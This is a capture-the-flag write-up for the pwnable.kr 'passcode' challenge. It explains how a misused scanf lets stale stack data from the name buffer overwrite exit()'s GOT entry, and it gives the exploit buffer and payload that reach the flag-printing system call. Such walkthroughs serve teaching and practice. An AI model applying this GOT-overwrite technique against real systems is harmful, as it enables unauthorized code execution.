

# pwnable.kr -- Toddler's Bottle -- passcode

## 1. Challenge

```
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```

## 2. Solution

Connect target via ssh and see source code:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
            printf("Login OK!\n");
            system("/bin/cat flag");
    }
    else{
            printf("Login Failed!\n");
            exit(0);
    }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}

```

Obviously, function `scanf()` is called incorrectly.

So we must make sure that `passcode1` and `passcode2` should be a valid address or the program would crash. Of course, we can also leave it empty so addresses that are equal to `passcode1` or `passcode2` would not be accessed.

But what is the value of `passcode1` and `passcode2`? Well, it depends on `char name[100]` in function `welcome()`. Let's see the stack layout of function `welcome()` and `login()`:



We can find we could affect `passcode1` but could not affect `passcode2`. Because `scanf()` only accepts 100 characters in function `welcome()`.

However, there still one way out. Actually, when program access to a invalid address, it would raise an exception and then calls `exit()` to terminate. So, we can change the offset of function `exit()` at Global Offset Table(GOT) to `0x080485e3`:

```asm
@0x080485e3
mov     dword ptr [esp], offset command ; "/bin/cat flag"
call    _system
```

So you can build exploit buffer:

```python
exp_buf = 'a' * 96 + '\x18\xa0\x04\x08'
```

When you are asked to type your name, just send it.

When you are asked to type `passcode1`, send:

```python
payload = str(0x080485e3)
```
to change the offset of function `exit()` to shell entry(0x080485e3).

Finally, you will get the flag.
